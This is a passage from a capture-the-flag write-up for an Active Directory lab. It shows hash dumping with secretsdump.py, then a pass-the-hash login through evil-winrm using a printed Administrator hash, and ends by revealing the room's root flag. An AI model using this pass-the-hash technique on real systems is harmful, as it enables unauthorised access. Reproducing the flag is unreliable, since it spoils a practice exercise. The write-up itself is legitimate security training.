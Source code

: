 This will output users' hashes, but in our case, we'll need just the Administrator's hash.

>If you have some errors running `secretsdump.py`, make sure that you have all the dependencies installed on your machine. Basically, you can get the `requirements.txt` file from [Impacket repository](https://github.com/fortra/impacket) (or just clone the entire repo and run `pip3 install .` in the repo's root directory).

To answer the third question for this section, since I didn't know which method of attack would allow us to authenticate the user without the password, I just did a simple Google search. The [Pass-the-Hash](https://www.netwrix.com/pass_the_hash_attack_explained.html) attack is the appropriate answer.

The next step, as suggested in the last question for this section, is to use Evil-WinRM — a tool that will allow us to use a hash for authentication. Use `evil-winrm -h` to get more details.

```cmd
┌──(ognard㉿kali)-[~/Tools]
└─$ evil-winrm -i 10.10.104.97 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

And we're in!

## Submit Flags
---

The final thing we need to do is to find and submit the flags for three users: `Administrator`, `backup`, and `svc-admin`.

Since we are already in the Administrator, we can find these quite easily; after looking around, the flag text files are in the Desktop folders for all three users.


```cmd
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

That's it! Thank you for reading through, and please consider subscribing to my newsletter if you would like to receive each new post in your inbox.